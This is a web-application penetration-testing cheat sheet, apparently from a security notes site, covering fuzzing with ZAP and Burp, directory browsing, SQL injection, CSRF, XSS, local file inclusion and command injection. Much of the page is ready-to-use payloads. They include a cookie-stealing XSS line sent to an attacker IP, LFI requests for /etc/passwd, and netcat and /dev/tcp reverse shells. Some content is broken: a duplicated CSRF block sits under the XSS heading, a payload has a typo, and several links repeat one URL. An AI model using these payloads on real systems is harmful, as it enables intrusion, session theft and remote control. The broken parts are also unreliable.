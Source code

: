 ```yaml
---
title: Attack Execution
category: Web Application
order: 3
---
```


> **Configuration**

Use Recon information to test for vulnerabilities in:
* OS (e.g., Shellshock)
* Webserver (e.g., heartbleed)
* Application Server Misconfiguration (e.g., admin portal, phpinfo)
* FrontEnd Frameworks (e.g., jQuery, MooTools) - look at wappalizer, src, and xmlhttprequests

> **Forced Browseing and Content Discovery**

ZAP:
* Tools -> options -> forced browse and verify options
* Right click -> attack ->  forced browse "

Burp (Pro only):
* Right click -> Engagement tools -> Discover Content

> **Fuzzing and Password Guessing**

Burp Fuzzing:
1. Right click on request -> send to intruder
2. Click Posistion -> select attack type based on attack (e.g., number of posistions, combination)
3. Select Posistions 
4. Click Payloads -> select appropriate payload
5. Click Options -> Verify Grep (what you are looking for)
6. Sort on the field you were grepping for"

ZAP Fuzzing (best for timing based attacks):
1. Send a request that has the posistions you want to fuzz (right click on request -> tailor -> resend)
2. Right click on request -> fuzz
3. Highlight text you want to fuzz
4. Click add -> select payload
5. Repeat for number of fields to fuzz
6. Click start fuzz
7. Sort on relevant field

Fuzzing Payloads:
* fuzzdb
* jbro fuzz
* wraph

Passwords:
* [Seclist](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
* [Weakpass](https://weakpass.com/)
* [crackstation](https://crackstation.net/)
* [Hashcat Hob0Rules](https://github.com/praetorian-inc/Hob0Rules)


> **Directory Browsing**

Test for Directory Browsing:
1. Navigate to directories and look for local file references (for NGINX and Apache try www.site.com/images)
2. Google site:gov intitle:""Index of"" ""last modified""
3. CVEs for leakage based on recon

Tools:
* Google Hacking Database
* dirb
* dirbuster
* [fuzzdb](https://github.com/fuzzdb-project/fuzzdb)
* jbrofuzz
* wmap
* Nikto
* w3af
* ZAP
* Metasploit WMAP
* Metasploit msfcrawler

> **SQL Injection: Test Strings**

{% highlight bash %}
' ` " ; /* --
{% endhighlight %}

> **SQL Injection: Database Identification**

Oracle | ORA-01756: quoted string not properly terminated
MS SQL Server | Incorrect syntax near 'something'
PostgreSQL | 5-digit Hex Error Code

> **CSRF**

GET:
{% highlight html %}
<img src="http://<ip_of_site>/form.php?<parameter>=<value>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

> **XSS**

Get Cookie:
{% highlight html %}
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+docment.cookie;</script>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}



> **XSS Test Strings**

{% highlight html %}
'';!--"<XSS>=&{()}
{% endhighlight %}

{% highlight html %}
<script>alert(document.cookie);</script>

<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>

<script src=http://www.example.com/malicious-code.js></script>

%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e

\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e

>"><script>alert("XSS")</script>&

"><STYLE>@import"javascript:alert('XSS')";</STYLE>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert('XSS')>

<IMG SRC=JaVaScRiPt:alert('XSS')> 

<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>

<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">

{% endhighlight %}



> **Local File Include**

{% highlight bash %}
#Automated Tool
fimap -u 'http://website/?p=file.html'

#Test for Local File Include
http://website/?p=file%3a%2f%2f%2fetc%2fpasswd

#Grab data
http://website/?p=php://filter/convert.base64-encode/resource=/etc/php/7.0/apache2/php.ini
http://utilities.snrt.io/?p=php://filter/convert.base64-encode/resource=index.php

#Rebuild Base64 file (e.g.,executable)
base64 -d extractedBase64File > executable2
curl -s "http://localhost/ex1.php?page=php://filter/convert.base64-encode/resource=index" | base64 -d

{% endhighlight %}

> **Command Injection**
{% highlight bash %}
#Commix Automated Tool
commix --level=3 --url="http://website/?arg=INJECT_HERE&arg2=argument" 
python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=INJECT_HERE&submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"


#Test Strings
test`pwd`
test$(pwd)
test; pwd
test | pwd
test && pwd
{% endhighlight %}

> **Blind Command Injection**

{% highlight bash %}
#Attacker Machine
tcpdump -n host <webserver IP> and ICMP
nc -l [port]
#Victim
test; ping -c 4 <yourAttackerIP>; echo hello 
test; /bin/nc [YourAttackerIP] [port] -e /bin/bash; echo hello
#Alternative to NC for non-debian based distrobutions
/bin/bash -i > /dev/tcp/[AttackerIP]/[attackerport] 0<&1 2>&1 

#Sleep method
http://ci.example.org/blind.php?address=127.0.0.1 && sleep 10
{% endhighlight %}

> **Web Shells**

Kali: 

PHP | <code> /usr/share/webshells/php/ </code>
PERL | <code> /usr/share/webshells/perl/ </code>
Cold Fusion | <code> /usr/share/webshells/cfm/ </code>
ASP | <code> /usr/share/webshells/asp/ </code>
ASPX | <code> /usr/share/webshells/aspx/ </code>
JSP | <code> /usr/share/webshells/jsp/jsp-reverse.jsp </code>

Online:

* [PHP and Perl](http://pentestmonkey.net/category/tools/web-shells)
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

> **Useful Resources**

* [MongoDB](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [Command Injection](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [Fuzzing List](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [XSS, SQL, LDAP, XPATH, XML Injection Test Strings](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors)
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [XSS Examples](http://www.xssed.com/)
* [SQL Injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* [Informix, MSSQL, Oracle, MySQL, Postgres, DB2, Ingres SQL Injection Cheat Sheet](http://pentestmonkey.net/category/cheat-sheet)
* [Access Injection Cheat Sheet](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)
[Commix](http://www.kitploit.com/2015/04/commix-automated-all-in-one-os-command.html)
[LFI Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/)
[CGI-Bin](https://www.hellboundhackers.org/articles/read-article.php?article_id=7)

> **Useful Tools**
* [SQLMap](http://sqlmap.org)

